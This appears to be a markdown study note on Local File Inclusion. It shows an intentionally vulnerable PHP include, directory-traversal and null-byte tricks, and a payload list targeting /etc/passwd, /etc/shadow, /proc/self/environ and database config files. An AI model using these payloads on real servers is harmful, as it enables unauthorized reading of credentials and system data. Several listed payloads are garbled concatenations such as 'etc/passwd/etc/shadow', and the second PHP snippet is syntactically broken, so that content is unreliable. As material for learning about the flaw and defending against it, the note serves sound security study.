 ```yaml
---
tags:
  - web
---
```

> Local File Inclusion (also known as LFI) allows an attacker to include files in server-side through the web browser. File inclusions are part of every advanced server-side scripting language on the web.LFI is commonly found to affect web applications that rely on a scripting runtime. This occurs mainly due to a bad input validation mechanism, wherein the user’s input is passed to the file include commands without proper validation.

### Impact
A successful LFI may result in compromise of the system, data leakage etc. The attacker can read, write, download files and can also run arbitrary codes with privileges of the web server.

### Local file inclusion in PHP
Consider an example as follows where we can apply this attack. http://victim_site/abc.php?file=userinput.txt The value of “file” parameter is taken into the following PHP code, and the file is included

```php
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("pages/$file");
   }
?>
```

An attacker may give malicious input for the "file" parameter which may give unauthorized files in that directory, he can also change the directories by using characters like "../". He can access the user credentials by giving input as "../../../../etc/passwd".In some cases where the file extension is added by default, we can avoid it by adding null byte terminator " %00". Any character after this special character will be ignored.

Suppose that the input given is taken by the following code and the default extension being set is “.php”. 

```php
<?php
“include/”.include($_GET[‘testfile’].”.php”);
?>
```

by giving file=../../../../etc/passwd%00 we can access the file by passing the ".php" extension.

An attacker can also download files by changing the file names. For example
	`example/?download=broucher.pdf`
The attacker may change the broucher.pdf to any other file such as passwords.txt, users.txt etc.

### Example payloads
* ../../../../etc/passwd/etc/issue
* ../../../../etc/passwd
* ../../../../etc/passwd/etc/shadow
* ../../../../etc/passwd/etc/group
* ../../../../etc/passwd/etc/hosts
* ../../../../etc/passwd/etc/motd
* ../../../../etc/passwd/etc/mysql/my.cnf
* ../../../../proc/self/environ
* ../../../../proc/version
* ../../../../proc/cmdline
* ../../../../proc/sched_debug
* ../../../../proc/mounts
* ../../../../proc/net/arp
* ../../../../proc/net/route
* ../../../../proc/net/tcp
* ../../../../proc/net/udp